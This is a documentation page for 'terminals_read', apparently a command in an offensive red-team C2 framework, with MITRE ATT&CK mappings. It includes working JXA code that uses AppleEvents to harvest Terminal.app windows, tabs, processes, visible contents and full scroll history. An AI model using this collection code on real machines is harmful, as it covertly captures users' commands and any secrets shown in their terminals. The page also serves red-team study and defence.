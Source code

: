 +++
title = "terminals_read"
chapter = false
weight = 100
hidden = false
+++

## Summary

This uses AppleEvents to read information about open instances of Apple's Terminal.app. 

The contents flag allows you to see exactly what the user can see at that moment on the screen. 

The history flag allows you to see everything that's in that tab's scroll history. This can be a lot of information, so keep that in mind. 

This function will also give you the window/tab information for each open session and a bunch of other information.
     
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### level

- Description: How much data to retrive - what's viewable or all history  
- Required Value: True  
- Default Value: None  

## Usage

```
terminals_read
```

## MITRE ATT&CK Mapping

- T1139  
- T1056  
## Detailed Summary
This sends AppleEvents to the Terminal.app to read information about the windows/tabs:
```JavaScript
let term = Application("Terminal");
if(term.running()){
    let windows = term.windows;
    for(let i = 0; i < windows.length; i++){
        let win_info = {
            "Name": windows[i].name(),
            "Visible": windows[i].visible(),
            "Frontmost": windows[i].frontmost(),
            "tabs": []
        };
        let all_tabs = [];
        // store the windows information in id_win in all_data
        all_data["window_" + i] = win_info;
        for(let j = 0; j < windows[i].tabs.length; j++){
            let tab_info = {
                "tab": j,
                "Busy": windows[i].tabs[j].busy(),
                "Processes": windows[i].tabs[j].processes(),
                "Selected": windows[i].tabs[j].selected(),
                "TTY": windows[i].tabs[j].tty()
            };
            if(windows[i].tabs[j].titleDisplaysCustomTitle()){
                tab_info["CustomTitle"] =  windows[i].tabs[j].customTitle();
            }
            if(split_params['level'] === 'history'){
                tab_info["History"] = windows[i].tabs[j].history();
            }
            if(split_params['level'] === 'contents'){
                tab_info["Contents"] = windows[i].tabs[j].contents();
            }
            all_tabs.push(tab_info);
        }
        // store all of the tab information corresponding to that window id at id_tabs
        win_info['tabs'] = all_tabs;
    }
```

